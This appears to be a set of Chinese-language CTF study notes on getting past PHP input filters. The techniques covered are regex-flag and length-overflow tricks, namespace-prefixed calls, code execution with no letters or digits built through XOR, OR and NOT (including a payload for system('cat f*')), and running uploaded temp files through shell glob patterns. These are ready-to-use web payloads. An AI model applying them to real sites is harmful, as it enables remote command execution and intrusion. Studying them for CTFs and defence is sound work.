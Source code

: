 ```php
[^a-zA-Z0-9]表示“找到一个非字母也非数字的字符”。 //取否

/i //忽略大小写
/g //全文查找出现的所有匹配字符
/m //多行查找,可通过%0a绕过,详细参见https://wenku.baidu.com/view/a897bc29f22d2af90242a8956bec0975f465a4c0.html

^php //开头匹配 如phpaaa
php$ //结尾匹配 如aaaphp
^php$ //只有php能匹配
```
3.长度溢出
```php
echo str_repeat('very', '250000').'36Dctfshow';
```
4.命名空间绕过
php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路 径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写法
如限制函数开头不能有字母和数字，可用\phpinfo()绕过

5.无字母数字
a.eval php7以上
返回字符串中代码的返回值
原理：eval("('phpinfo')();");
```php
//限制v1,v2为数字，v3无数字和字母，参见p牛博客
eval("return $v1$v3$v2;");
//1-phpinfo()-1;
//1^('system')('cat f*')^1;//高版本
```
* 位运算
可用的运算符:&,|,~,^
```c
//v2=^(%fa%fa%fa%fa%fa%fa^%89%83%89%8e%9f%97)(%fa%fa^%96%89)^ //v2=|(~%8c%86%8c%8b%9a%92)(~%93%8c)|
//c=('``````'|'%13%19%13%14%05%0d')('``'|'%0c%13')
```
![20220608232028](https://s2.loli.net/2022/06/08/XjDzQf61uVPAaHe.png)
[生成脚本](https://blog.csdn.net/miuzzx/article/details/108569080)
* 自增 'Y'=>'Z'=>'AA'
b.system
* shell下可以利用.来执行任意脚本(任意后缀名如txt)，如当前运行的shell是bash，则. file的意思就是用bash执行file文件中的命令，且不需要file有x权限
Linux文件名支持用glob通配符代替

发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母。
随便向一个php里post都可以，它会被保存在tmp那个目录(任何程序都可写)。每次执行完脚本会清空tmp
执行. /tmp/phpXXXXXX，也是有字母的。此时就可以用到Linux下的glob通配符,/tmp/phpXXXXXX可以表示为/*/?????????或/???/?????????
但能够匹配上/???/?????????这个通配符的文件有很多，若在执行第一个匹配上的文件的时候出现错误，会导致整个流程停止，根本不会执行到我们上传的文件。
但所有文件名都是小写，只有PHP生成的临时文件包含大写字母。可以利用[@-[]来表示大写字母，替代要匹配的那个?
当然，php生成临时文件名是随机的，最后一个字符不一定是大写字母，不过多尝试几次也就行了。(repeater多点几次，多生成些随机文件)

* `$(command)` 返回command这条命令的stdout（可嵌套）
```bash
$(()) #0
~$(()) #~0
$((~$(()))) #-1
$(($((~$(())))+$((~$(()))))) #-2
$((~$(($((~$(())))+$((~$(()))))))) #2
```
